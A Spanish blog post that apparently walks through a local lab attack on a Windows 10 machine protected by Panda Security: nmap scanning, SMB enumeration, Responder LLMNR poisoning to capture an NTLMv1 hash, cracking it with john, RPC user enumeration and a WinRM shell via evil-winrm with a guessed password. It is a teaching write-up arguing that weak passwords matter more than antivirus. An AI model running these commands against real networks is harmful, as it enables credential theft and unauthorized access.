 ```yaml
---
title: Intentando vulnerar un equipo con Panda Security
author: HackerCloud
date: 2022-09-2 00:00:00 +0800
categories: [Blogging, Security]
tags: [Blogging]
image:
  path: ../../assets/img/commons/panda-security/panda.png
  width: 800
  height: 500
  alt: Banner Panda Security
---
```


Antes de empezar deciros que esto es un entorno de pruebas en local, panda security es un antivirus muy bueno para las personas que no saben se ciberseguridad y quieren estar protegidos, en este artículo lo que más importa es el último párrafo.

Para empezar tenemos que enumerar los equipos que están en nuestro segmento de red, para eso usaremos el parámetro `-sP` de nmap

```ruby
❯ sudo nmap -sP 192.168.1.44/24
Nmap scan report for 192.168.1.16
MAC Address: REDACTED (REDACTED)
Nmap scan report for REDACTED (192.168.1.20)
Host is up.
Nmap done: 256 IP addresses (X hosts up) scanned in 2.08 seconds
```

Con esto ya podemos empezar el escaneo de puertos con nmap

```ruby
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
5985/tcp  open  wsman         
```

Está el puerto SMB abierto así que podemos empezar a enumerarlo con crackmapexec

```ruby
❯ crackmapexec smb 192.168.1.20
SMB         192.168.1.20    445    REDACTED         [*] Windows 10.0 Build x64 (name:REDACTED) (domain:REDACTED) (signing:False) (SMBv1:False)
```

Vemos que tiene la firma desactivada, podemos empezar con un simple SMB Relay, este ataque consiste en ejecutar el [responder](https://github.com/SpiderLabs/Responder) y esperar a que alguien acceda o intente acceder a un recurso compartido a nivel de red sin importar que dicho recurso exista, esta vulnerabilidad es muy común en empresas ya que solo es necesario tener la firma deshabilitada para ser vulnerable

Este ataque lo estoy haciendo con Panda Security Professional activado y con el firewall activado, en este ataque solo importa que la firma esté desactivada

Solamente tenemos que ejecutar el responder con el parámetro -I para indicar nuestra interfaz de red

```ruby
❯ python3 Responder.py -I wlan0
[+] Poisoners:                                                                                                                                                
    LLMNR                      [ON]                                                                                                                           
    NBT-NS                     [ON]                                                                                                                           
    MDNS                       [ON]                                                                                                                           
    DNS                        [ON]                                                                                                                           
    DHCP                       [OFF]
[+] Servers:                                                                                                                                                  
    HTTP server                [ON]                                                                                                                           
    HTTPS server               [ON]                                                                                                                           
    WPAD proxy                 [OFF]                                                                                                                          
    Auth proxy                 [OFF]                                                                                                                          
    SMB server                 [ON]                                                                                                                           
    Kerberos server            [ON]                                                                                                                           
    SQL server                 [ON]                                                                                                                           
    FTP server                 [ON]                                                                                                                           
    IMAP server                [ON]                                                                                                                           
    POP3 server                [ON]                                                                                                                           
    SMTP server                [ON]                                                                                                                           
    DNS server                 [ON]                                                                                                                           
    LDAP server                [ON]                                                                                                                           
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]
REDACTED
[SMB] NTLMv1-SSP Client   : REDACTED
[SMB] NTLMv1-SSP Username : WORKGROUP\user
[SMB] NTLMv1-SSP Hash     : user::WORKGROUP:REDACTED:REDACTED:REDACTED
```

Con este hash ya solamente queda intentar crackearlo, en este caso he usado john con el diccionario rockyou.txt, como la contraseña era débil he podido crackearla

```ruby
❯ john --show hash
user:REDACTED

1 password hash cracked, 0 left
```

Como esto ha sido demasiado fácil, vamos a hacer como que el SMB está firmado en todos los equipos

Podemos empezar probando con smbclient para ver si tiene habilitado el null session

```ruby
❯ smbclient -L 192.168.1.20 -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.1.20 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Nos dice que está habilitado el null session pero no hay ninguna carpeta compartida, podemos hacer lo mismo con smbmap o crackmapexec para asegurarnos

```ruby
❯ smbmap -H 192.168.1.20 -u ""
[+] IP: 192.168.1.20:445        Name: REDACTED
```

```ruby
❯ crackmapexec smb 192.168.1.20 -u "" -p "" --shares 
SMB         192.168.1.20    445    REDACTED         [-] Error enumerating shares: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied}
```

No vemos nada con ninguna de las 3 herramientas, podemos seguir por el puerto RPC para intentar enumerar usuarios del dominio

```bash
❯ rpcclient -U "" 192.168.1.20 -N -c "enumdomusers" | grep -oP '\[.*?\]' | sort -u | tr -d '[]'
```

Nos da dos usuarios, el usuario Administrador y el usuario user, podemos probar a conectarnos por winrm usando de contraseña el usuario

```powershell
❯ evil-winrm -i 192.168.1.20 -u 'user' -p 'user'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

PS C:\Users\user\Documents>
```

Y con esto nos podemos dar cuenta de que por muchas protecciones de antivirus que te pongas, sigue siendo más importante el factor humano.
